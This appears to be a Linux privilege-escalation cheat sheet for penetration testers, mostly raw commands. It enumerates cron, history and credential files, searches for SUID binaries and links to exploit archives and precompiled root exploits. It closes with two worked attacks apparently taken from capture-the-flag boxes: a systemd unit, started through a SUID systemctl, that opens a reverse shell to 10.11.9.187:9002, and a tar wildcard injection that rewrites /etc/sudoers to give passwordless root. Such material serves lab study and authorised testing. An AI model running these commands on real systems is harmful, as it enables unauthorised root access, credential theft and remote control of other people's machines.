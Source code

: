 Linux Privilege Escalation

**************************************Automated Scripts**************************************** 
#1. LinENUM.sh
#2. LinuxPrivChecker.py
#3. LinPeas.sh
#4. lse.sh

1. Distribution Types:

	cat /etc/issue
	cat /etc/*-release
	cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based
	
2. Kernel Versions

	uname -a 
	uname -rms
	
3. Services & Prvileges

	ps aux 
	ps -ef 
	
4. Scheduled jobs & scripts

	crontab -l 
	ls -alh /var/spool/cron
	ls -al /etc/ | grep cron
	ls -al /etc/cron*

	cat /etc/at.allow
	cat /etc/at.deny
	cat /etc/cron.allow
	cat /etc/cron.deny
	cat /etc/crontab
	cat /etc/anacrontab
	cat /var/spool/cron/crontabs/root
	
5. Recurssive search for user & Password (using grep)

	grep -i user [filename]
	grep -i pass [filename]
	grep -C 5 "password" [filename]
	find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla

6. Passwords in Scripts

	cat /var/apache2/config.inc
	cat /var/lib/mysql/mysql/user.MYD
	cat /root/anaconda-ks.cfg	

7. Sensitive info in history

	cat ~/.bash_history
	cat ~/.nano_history
	cat ~/.atftp_history
	cat ~/.mysql_history
	cat ~/.php_history
	
8. settings/files (hidden) on website

	ls -alhR /var/www/
	ls -alhR /srv/www/htdocs/
	ls -alhR /usr/local/www/apache22/data/
	ls -alhR /opt/lampp/htdocs/
	ls -alhR /var/www/html/
9. Advanced Linux file Permissions

	find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
	find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
	find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.
	find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
	find / -perm -4000 2>dev/null
	for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    
	
	# Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)
	
10. Finding exoloits:

	
	http://www.exploit-db.com

	http://1337day.com

	http://www.securiteam.com

	http://www.securityfocus.com

	http://www.exploitsearch.net

	http://metasploit.com/modules/

	http://securityreason.com

	http://seclists.org/fulldisclosure/
	
	http://www.google.com
	
11. Pre-Complied Binaries

	http://web.archive.org/web/20111118031158/http://tarantula.by.ru/localroot/

	http://www.kecepatan.66ghz.com/file/local-root-exploit-priv9/

	
*****SYSTEMCTL suid bit set************
systemctl setuid bit 

[Unit]
Description=rooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.11.9.187/9002 0>&1'

[Install]
WantedBy=multi-user.target

www-data@vulnuniversity:/bin/systemctl enable /tmp/root.service
www-data@vulnuniversity:/tmp$ /bin/systemctl start root


*****Cronjob wildcard injection**********
www-data@skynet:/var/www/html$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > test.sh
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh test.sh"
www-data@skynet:/var/www/html$ echo "" > --checkpoint=1






